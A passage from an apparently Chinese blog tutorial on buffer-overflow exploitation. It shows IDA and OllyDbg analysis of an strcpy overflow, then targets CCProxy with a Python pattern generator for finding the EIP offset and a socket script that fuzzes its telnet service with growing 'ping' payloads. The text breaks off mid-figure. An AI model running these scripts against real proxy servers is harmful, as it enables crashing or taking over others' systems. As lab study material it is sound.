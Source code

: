 <p>利用IDA反汇编的结果，可以直接看到产生溢出的函数 <br>
</br></p><center> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170422200628102?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
图5 反汇编 <br>
发现产生溢出的strcpy函数，因为程序没有对argv的长度进行限制</br></br></img></br></center><p></p>
<p><strong>CCproxy</strong></p>
<ul>
<li>特定字符</li>
</ul>
<pre class="prettyprint"><code class="language-python hljs ">s = <span class="hljs-string">''</span>
<span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> range(<span class="hljs-number">10</span>):
    <span class="hljs-keyword">for</span> j <span class="hljs-keyword">in</span> range(<span class="hljs-number">10</span>):
        <span class="hljs-keyword">for</span> m <span class="hljs-keyword">in</span> range(<span class="hljs-number">10</span>):
            <span class="hljs-keyword">for</span>(n) <span class="hljs-keyword">in</span> range(<span class="hljs-number">10</span>):
                s += str(i)+str(j)+str(m)+str(n)
                <span class="hljs-keyword">if</span> len(s) == <span class="hljs-number">2000</span> :
                    <span class="hljs-keyword">print</span> s</code></pre>
<p>生成字节序不同的2000个字节 <br>
</br></p><center> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170422223547612?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
图6 生成不同字节</br></img></br></center><p></p>
<p></p><center> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170422223749910?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
图7 OD堆栈</br></img></br></center><p></p>
<p>可以看到EIP的值前面是高字节后面是低字节 则为0253 <br>
</br></p><center> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170422223904560?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
 图8 搜索字符</br></img></br></center><p></p>
<p>长度为1012位</p>
<ul>
<li>脚本爆破</li>
</ul>
<pre class="prettyprint"><code class=" hljs livecodeserver">
import <span class="hljs-built_in">socket</span>
s = <span class="hljs-built_in">socket</span>.<span class="hljs-built_in">socket</span>(<span class="hljs-built_in">socket</span>.AF_INET, <span class="hljs-built_in">socket</span>.SOCK_STREAM)
s.connect((<span class="hljs-string">"192.168.43.254"</span>, <span class="hljs-number">23</span>))
<span class="hljs-built_in">num</span> = <span class="hljs-number">15</span>
<span class="hljs-keyword">while</span> <span class="hljs-number">1</span>:
    s.<span class="hljs-built_in">send</span>(<span class="hljs-string">'ping'</span>+<span class="hljs-string">'A'</span>*<span class="hljs-built_in">num</span>+<span class="hljs-string">'\n'</span>) <span class="hljs-comment">#000a0d42 1013 0a0d4242 1014 0042000a 1011</span>
    <span class="hljs-keyword">string</span> = s.recv(<span class="hljs-number">4096</span>)   
    print <span class="hljs-keyword">string</span>
    <span class="hljs-keyword">if</span> <span class="hljs-string">'Host'</span> <span class="hljs-operator">in</span> <span class="hljs-keyword">string</span> <span class="hljs-operator">or</span> <span class="hljs-string">'CCProxy'</span> <span class="hljs-operator">in</span> <span class="hljs-keyword">string</span> <span class="hljs-operator">or</span> <span class="hljs-string">'be'</span> <span class="hljs-operator">in</span> <span class="hljs-keyword">string</span>:
        strtt = <span class="hljs-number">1</span>
    <span class="hljs-keyword">else</span>:
        print <span class="hljs-string">'no'</span>
        print  <span class="hljs-built_in">num</span>
    <span class="hljs-built_in">num</span> += <span class="hljs-number">1</span></code></pre>
<p></p><center> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170422224019500?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>